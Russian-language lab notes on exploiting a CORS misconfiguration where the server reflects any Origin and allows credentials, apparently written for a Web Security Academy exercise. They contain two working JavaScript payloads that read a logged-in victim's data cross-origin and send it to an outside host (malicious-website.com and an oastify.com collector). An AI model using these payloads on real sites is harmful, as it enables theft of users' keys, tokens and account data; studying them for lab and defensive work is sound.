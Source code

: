 Некоторым приложениям необходимо предоставлять доступ к ряду других доменов. Поддержание списка разрешенных доменов требует постоянных усилий, а любые ошибки могут нарушить функциональность. Поэтому некоторые приложения выбирают легкий путь, фактически разрешая доступ из любого другого домена.

Один из способов сделать это — прочитать заголовок Origin из запросов и включить заголовок ответа, указывающий, что запрашивающий origin разрешен. Например, рассмотрим приложение, которое получает следующий запрос:

```
GET /sensitive-victim-data HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://malicious-website.com 
Cookie: sessionid=...
```

Затем он отвечает:
```
HTTP/1.1 200 OK 

Access-Control-Allow-Origin: https://malicious-website.com 
Access-Control-Allow-Credentials: true 
...
```

В этих заголовках указано, что доступ разрешен из запрашивающего домена ( `malicious-website.com`) и что запросы кросс-домены могут включать файлы cookie ( `Access-Control-Allow-Credentials: true`) и поэтому будут обрабатываться в ходе сеанса.

Поскольку приложение отражает произвольные источники в `Access-Control-Allow-Origin`заголовке, это означает, что абсолютно любой домен может получить доступ к ресурсам из уязвимого домена. Если ответ содержит какую-либо конфиденциальную информацию, такую ​​как ключ API или токен CSRF, вы можете получить ее, разместив следующий скрипт на своем веб-сайте:
```
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 

function reqListener() 
	{ 
		location='//malicious-website.com/log?key='+this.responseText; 
	};
```
- **Что делает код:**
    1. Создается объект `XMLHttpRequest`, который отправляет GET-запрос на `https://vulnerable-website.com/sensitive-victim-data`.
    
    2. Параметр `withCredentials = true` указывает браузеру включить куки в запрос, если пользователь авторизован на `vulnerable-website.com`.
    
    3. Когда запрос завершается, вызывается функция `reqListener`.
    
    4. В функции `reqListener` данные, полученные от сервера (`this.responseText`), передаются на `malicious-website.com` через URL `//malicious-website.com/log?key=...`.

- **Зачем это нужно:**
    
    - Использовать этот код на своей странице `malicious-website.com`, чтобы украсть конфиденциальные данные пользователя, который посетит эту страницу и будет авторизован на `vulnerable-website.com`.
    
    - Данные передаются на сервер злоумышленника через параметр `key` в URL, где они могут быть записаны и использованы в дальнейшем.


- код с отправкой на другой веб сервер
```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net";
            var targetUrl = "https://9z914ntw4dggn6c5y5710c6qyh48s8gx.oastify.com/log";

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    // Преобразуем ответ в JSON и кодируем в Base64
                    var responseData = JSON.stringify({ response: xhr.responseText });
                    var base64Data = btoa(unescape(encodeURIComponent(responseData)));

                    // Отправляем закодированные данные на целевой сервис
                    fetch(targetUrl + "?key=" + encodeURIComponent(xhr.responseText), {
                        method: 'GET'
                    });
                }
            };

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>
    </body>
</html>
```
#### Лаба
[[Лабораторная работа Уязвимость CORS с базовым отражением происхождения]]